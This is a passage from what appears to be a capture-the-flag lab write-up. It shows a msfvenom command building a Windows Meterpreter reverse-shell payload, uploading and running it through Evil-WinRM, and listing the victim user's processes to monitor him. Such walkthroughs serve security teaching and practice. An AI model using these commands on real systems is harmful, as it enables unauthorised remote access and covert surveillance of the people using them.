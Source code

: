 As next step we will use Metasploit/Meterpreter to monitor Dr Browns activity.

First of we generate a Meterpreter payload using msfvenom.

```shell
labadmin@labmachine:~/hospital$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=6001 -f exe -a x64 --platform windows -o payload.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: payload.exe
```

Next we start a Meterpreter listener inside Metasploit.

Now we go back to WinRM and upload the payload and run it.

```shell
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> upload ./payload.exe

Info: Uploading /home/labadmin/hospital/payload.exe to C:\Users\drbrown.HOSPITAL\Documents\payload.exe

Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> ./payload.exe
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents>
```

And we got the connection on our meterpreter listener.

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.10:6001
[*] Sending stage (201798 bytes) to 10.10.11.241
[*] Meterpreter session 1 opened (10.10.14.10:6001 -> 10.10.11.241:6086) at 2024-04-14 22:50:49 -0700

meterpreter >
```

Now we list ps for Dr Brown.

```shell
meterpreter > ps -U drbrown
Filtering on user 'drbrown'

Process List
============

 PID   PPID  Name                     Arch  Session  User              Path
 ---   ----  ----                     ----  -------  ----              ----
 532   1540  taskhostw.exe            x64   1        HOSPITAL\drbrown  C:\Windows\System32\taskhostw.exe
 784   2668  conhost.exe              x64   0        HOSPITAL\drbrown  C:\Windows\System32\conhost.exe
 1008  6176  explorer.exe             x64   1        HOSPITAL\drbrown  C:\Windows\explorer.exe
 1088  2592  iexplore.exe             x64   1        HOSPITAL\drbrown  C:\Program Files\internet explorer\iexplore.exe
 1120  7440  powershell.exe           x64   0        HOSPITAL\drbrown  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1568  900   wsmprovhost.exe          x64   0        HOSPITAL\drbrown  C:\Windows\System32\wsmprovhost.exe
 1980  1088  iexplore.exe             x86   1        HOSPITAL\drbrown  C:\Program Files (x86)\Internet Explorer\iexplore.exe
 2504  1540  powershell.exe           x64   1        HOSPITAL\drbrown  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```